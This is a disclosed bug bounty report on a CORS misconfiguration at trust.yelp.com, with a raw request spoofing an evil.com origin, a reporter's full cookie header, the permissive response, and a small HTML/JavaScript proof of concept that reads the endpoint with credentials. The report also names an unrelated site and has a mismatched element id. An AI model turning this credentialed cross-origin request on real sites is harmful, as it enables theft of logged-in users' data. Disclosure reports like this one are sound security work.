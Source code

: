 # CORS Misconfiguration on trust.yelp.com

## Report Details
- **Report ID**: 1716286
- **URL**: https://hackerone.com/reports/1716286
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-29T06:07:37.366Z
- **Disclosed**: 2022-10-10T04:59:36.429Z

## Reporter
- **Username**: ajayjachak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
**Summary:**
An cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request. If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. This bug could be used to steal users information or force the user to execute unwanted actions. As long that a legit and logged in user is lure to access a attacker controlled HTML page
**Description:**
CORS misconfiguration is found on vanillaforums.com as `Access-Control-Allow-Credentials: true`.
## Steps to reproduce:

1.visit  [trust.yelp.com).
2. Request:
```
GET /wp-json HTTP/2
Host: trust.yelp.com
Origin: evil.com
Cookie: bse=2f10a62687154546b7369d41e3d21476; hl=en_US; wdi=1|5632650E427D021A|0x1.8cd49f9830b35p+30|571cd22f480ebb1f; recentlocations=; location=%7B%22city%22%3A+%22San+Francisco%22%2C+%22state%22%3A+%22CA%22%2C+%22country%22%3A+%22US%22%2C+%22latitude%22%3A+37.775123257209394%2C+%22longitude%22%3A+-122.41931994395134%2C+%22max_latitude%22%3A+37.81602226140252%2C+%22min_latitude%22%3A+37.706368356809776%2C+%22max_longitude%22%3A+-122.3550796508789%2C+%22min_longitude%22%3A+-122.51781463623047%2C+%22zip%22%3A+%22%22%2C+%22address1%22%3A+%22%22%2C+%22address2%22%3A+%22%22%2C+%22address3%22%3A+%22%22%2C+%22neighborhood%22%3A+%22%22%2C+%22borough%22%3A+%22%22%2C+%22provenance%22%3A+%22YELP_GEOCODING_ENGINE%22%2C+%22display%22%3A+%22San+Francisco%2C+CA%22%2C+%22unformatted%22%3A+%22San+Francisco%2C+CA%22%2C+%22isGoogleHood%22%3A+false%2C+%22usingDefaultZip%22%3A+false%2C+%22accuracy%22%3A+4%2C+%22language%22%3A+null%7D; xcj=1|VP4RtS_ulWCVhRYxwTqio5C_0Tnowry8JyX5dSRa8v8; _gcl_au=1.1.1120534857.1664428004; OptanonConsent=isGpcEnabled=0&datestamp=Thu+Sep+29+2022+11%3A07%3A00+GMT%2B0530+(India+Standard+Time)&version=6.34.0&isIABGlobal=false&hosts=&consentId=9f87b92f-a2b6-4222-98d3-a19bac35a2cd&interactionCount=1&landingPath=NotLandingPage&groups=BG51%3A1%2CC0003%3A1%2CC0002%3A1%2CC0001%3A1%2CC0004%3A1&AwaitingReconsent=false; _ga=GA1.2.5632650E427D021A; _gid=GA1.2.132283565.1664428009; __qca=P0-728600750-1664428009529; _clck=iywwke|1|f5a|0; _fbp=fb.1.1664428010403.1414791415; _clsk=12tz9lj|1664429606753|27|0|b.clarity.ms/collect; _conv_v=vi%3A1*sc%3A1*cs%3A1664429119*fs%3A1664429119*pv%3A3*exp%3A%7B%7D; _conv_s=si%3A1*sh%3A1664429118928-0.08454978389164447*pv%3A3; _conv_r=s%3Afooter*m%3Awww*t%3A*c%3Aclaim_business; _ga_MEZL1ZKM71=GS1.1.1664429120.1.1.1664429611.0.0.0; _hjSessionUser_2195429=eyJpZCI6ImM1NzNjMTIyLTRkOTgtNTUxYS1hOThkLTBjNjIxNjAxYWYxYyIsImNyZWF0ZWQiOjE2NjQ0MjkxMjIwNDEsImV4aXN0aW5nIjp0cnVlfQ==; _hjFirstSeen=1; _hjSession_2195429=eyJpZCI6IjBiMTJmZDIzLThkNmUtNGYxOC05Zjc5LTMwMDAyZTJlZDZlYyIsImNyZWF0ZWQiOjE2NjQ0MjkxMjI4MDgsImluU2FtcGxlIjp0cnVlfQ==; _hjAbsoluteSessionInProgress=0; _scid=794b8ac1-c50b-4ada-bf6e-789d2ac7e3d7; IR_gbd=yelp.com; IR_12770=1664429123516%7C0%7C1664429123516%7C%7C; _sctr=1|1664389800000; _ga_WKQNZR06KL=GS1.1.1664429203.1.1.1664429315.0.0.0; adc=oaUVdjlOR75Z-DQ7AggWhQ%3AVkHT1GfomqCobWvtlXEnhw%3A1664429336; _uetsid=832eb1003fb411edb47bd943b4efcd81; _uetvid=832eeaa03fb411ed8aa97b291a244fc8; tatari-session-cookie=fbd258df-f9a0-cad5-af44-123200dc664c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers


```
you get an response like:
```
HTTP/2 200 OK
Content-Type: application/json; charset=UTF-8
Server: nginx
Date: Thu, 29 Sep 2022 05:52:42 GMT
Vary: Accept-Encoding
Vary: Accept-Encoding
Vary: Accept-Encoding
X-Robots-Tag: noindex
Link: <https://trust.yelp.com/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Allow: GET
Access-Control-Allow-Origin: http://evil.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: true
X-Powered-By: WP Engine
X-Cacheable: SHORT
Vary: Accept-Encoding,Cookie
Cache-Control: max-age=600, must-revalidate
X-Cache-Group: normal
X-Cache: Miss from cloudfront
Via: 1.1 ff28c096d027c983cb30a1fcf83ea578.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: BOM78-P5
X-Amz-Cf-Id: Nna2KfbKokL-uzbVcsnV2EUkuMYAsxuclmNzDdN7ivPub5jcNMaa2A==

and some jSON code to follow...
...
```
Note:  by adding the [Like](https://trust.yelp.com/wp-json/) repose from the page in the following code developed it can be exploded 
```
<!DOCTYPE html>
<html>
    <head>
        <script>
            function cors() {
                var xhttp=new XMLHttpRequest();
                    xhttp.onreadystatechange= function() {
                        if (this.readyState == 4 && this.status ==200){
                            document.getElementById("emo").innerHTML=alert(this.responseText
                                );

                        }
                };
                xhttp.open('GET',"https://trust.yelp.com/wp-json/",true);
                xhttp.withCredentials=true;
                xhttp.send();
            }
        </script>
    </head>
    <body>
        <center>
        <h2>[!]CORS PoC Exploit!!!</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button> 
        </div>
        </center>
    </body>

</html>
```
 
## Anything else we should know?

I have the PoC attached which is the output for the above

## Impact

1. Attacker would treat many victims to visit the attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.
2. Also If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information.

## Attachments
- yelp_poc_1.png

